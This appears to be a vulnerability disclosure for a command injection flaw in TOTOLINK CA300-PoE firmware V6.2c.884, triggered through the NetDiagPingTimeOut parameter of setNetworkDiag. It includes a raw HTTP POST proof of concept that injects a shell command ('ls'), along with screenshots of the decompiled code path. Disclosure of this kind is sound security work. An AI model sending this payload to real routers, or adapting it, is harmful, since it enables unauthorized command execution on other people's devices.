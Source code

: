 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the NetDiagPingTimeOut parameter in the function setNetworkDiag

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setNetworkDiag`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setNetworkDiag","NetDiagMethod" : "0", "NetDiagPingTimeOut": "4||ls;"}
```

![image-20230112184654180](images/3.png)



The function `setNetworkDiag` is used to set the corresponding variable

![image-20230112182605470](images/5.png)

In function `showNetworkDiag`

![image-20230112182702672](images/6.png)

step into function `getDiagInfo`

![image-20230112182800857](images/7.png)
